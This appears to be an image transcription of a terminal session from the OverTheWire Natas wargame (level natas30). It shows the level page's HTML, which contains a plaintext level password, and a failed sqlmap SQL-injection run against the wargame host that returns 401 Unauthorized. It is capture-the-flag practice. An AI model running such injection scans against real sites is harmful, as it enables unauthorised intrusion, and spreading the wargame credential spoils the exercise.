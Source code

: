 ```
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas30", "pass": "WQhx1BvcmP9irs2MP9tRnLsNaDI76YrH" };</script></head>
<body oncontextmenu="javascript:alert('right clicking has been blocked!');return false;">

<!-- morla/10111 <3  happy birthday OverTheWire! <3  -->

<h1>natas30</h1>
<div id="content">

<form action="index.pl" method="POST">
Username: <input name="username"><br>
Password: <input name="password" type="password"><br>
<input type="submit" value="login" />
</form>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
* Connection #0 to host natas30.natas.labs.overthewire.org left intact



┌──(kali㉿kali)-[~]
└─$ sqlmap -u "http://natas30.natas.labs.overthewire.org/" --data="natas30=admin&password=WQhx1BvcmP9irs2MP9tRnLsNaDI76YrH" --batch
        ___
       __H__                                                                                                                                      
 ___ ___["]_____ ___ ___  {1.8.5#stable}                                                                                                          
|_ -| . [(]     | .'| . |                                                                                                                         
|___|_  [,]_|_|_|__,|  _|                                                                                                                         
      |_|V...       |_|   https://sqlmap.org                                                                                                      

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 17:52:59 /2025-08-23/

[17:53:00] [INFO] testing connection to the target URL
[17:53:00] [CRITICAL] not authorized, try to provide right HTTP authentication type and valid credentials (401). If this is intended, try to rerun by providing a valid value for option '--ignore-code'
[17:53:00] [WARNING] HTTP error codes detected during run:
401 (Unauthorized) - 1 times
[17:53:00] [WARNING] your sqlmap version is outdated

[*] ending @ 17:53:00 /2025-08-23/



```